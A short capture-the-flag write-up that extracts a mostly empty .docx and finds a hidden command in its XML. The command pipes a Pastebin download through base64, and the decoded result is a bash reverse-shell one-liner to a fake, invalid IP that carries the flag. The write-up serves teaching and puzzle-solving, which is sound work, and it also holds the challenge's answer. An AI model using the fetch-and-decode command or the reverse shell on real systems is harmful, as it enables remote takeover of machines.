

We are given a `EmuWar.docx` that is mostly nothing.



I know that Office documents are just essentially zip archives, so I extract the contents:
```bash
$ 7z x EmuWar.docx
Scanning the drive for archives:
1 file, 8202 bytes (9 KiB)

Extracting archive: EmuWar.docx
--
Path = EmuWar.docx
Type = zip
Physical Size = 8202

Everything is Ok

Files: 9
Size:       26291
Compressed: 8202
```

Inside the `word/document.xml` I find a suspicious link:
```
... <w:t xml:space="preserve">; curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d &gt; </w:t></w:r><w:r><w:rPr> ...
```

Visiting the [Pastebin URL](https://pastebin.com/raw/ysYcKmbu) is a base64 string: `YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=`.

Decoded is the following: `bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1`.

Flag: `DUCTF{chatgpt_I_n33d_2_3scap3}`